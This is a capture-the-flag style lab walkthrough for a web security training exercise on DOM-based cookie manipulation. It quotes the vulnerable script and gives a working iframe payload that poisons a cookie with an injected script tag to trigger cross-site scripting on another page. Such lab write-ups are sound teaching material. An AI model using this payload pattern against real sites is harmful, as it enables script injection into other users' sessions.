



# DOM-based cookie manipulation
# Objective
This lab demonstrates DOM-based client-side cookie manipulation.\
To solve this lab, inject a cookie that will cause XSS on a different page and call the `print()` function.\
You will need to use the exploit server to direct the victim to the correct pages.

# Solution
## Analysis
Website has `script` that creates new cookie `lastViewedProduct` with URL to last visited product page. On the home page there is `Last viewed product` button leads to URL from cookie.

||
|:--:| 
| *Cookie manipulation script* |
||
| *New cookie - lastViewedProduct* |
||
| *Last viewed product button* |

Vulnerable code:
```html
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

## Exploitation
The following payload uses `window.location` sink to perform DOM-based XSS attack. Request `/product?productId=1&'><script>print()</script>` poisons `lastViewedProduct` cookie with XSS payload. On the first iframe load, `window.x` is undefined, so the code sets the iframe `src` to the base target URL - XSS payload is loaded from cookie. `window.x = 1` prevents the redirection from happening again on subsequent loads.

||
|:--:| 
| *Testing basic XSS - provided payload was executed* |
||
| *Exploit server configuration* |

Final payload:
```html
<iframe src="https://0a7300e303056319823147cb006b00de.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a7300e303056319823147cb006b00de.web-security-academy.net/';window.x=1;">
```
